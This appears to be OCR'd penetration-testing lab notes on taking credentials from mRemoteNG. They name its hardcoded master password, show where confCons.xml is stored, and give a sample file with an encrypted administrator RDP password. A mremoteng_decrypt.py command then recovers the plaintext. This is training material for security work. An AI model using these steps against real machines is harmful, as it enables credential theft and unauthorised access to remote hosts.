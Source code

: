 ### mRemoteNG

mRemoteNG saves connection info and credentials to a file called confCons.xml

They use a hardcoded master password, mR3m, so if anyone starts saving credentials in mRemoteNG and does not protect the configuration with a password, we can access the credentials from the configuration file and decrypt them.

By default, the configuration file is located in %USERPROFILE%\APPDATA\Roaming\mRemoteNG.

#### Discover mRemoteNG Configuration Files

```
ls C:\Users\julio\AppData\Roaming\mRemoteNG

    Directory: C:\Users\julio\AppData\Roaming\mRemoteNG

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/21/2022   8:51 AM                Themes
-a----        7/21/2022   8:51 AM            340 confCons.xml
              7/21/2022   8:51 AM            970 mRemoteNG.log
```

#### mRemoteNG Configuration File - confCons.xml

```
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389"
    ..SNIP..
</Connections>
```

#### Decrypt the Password with mremoteng_decrypt

```
python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" 

Password: ASDki230kasd09fk233aDA
```

#### mRemoteNG Configuration File - confCons.xml

```
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="1ZR9DpX3eXumopcnjhTQ7e78u+SXqyxDmv2jebJg09pg55kBFW+wK1e5bvsRshxuZ7yvteMgmfMW5eUzU4NG" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="False" 
    
<SNIP>
</Connections>
```
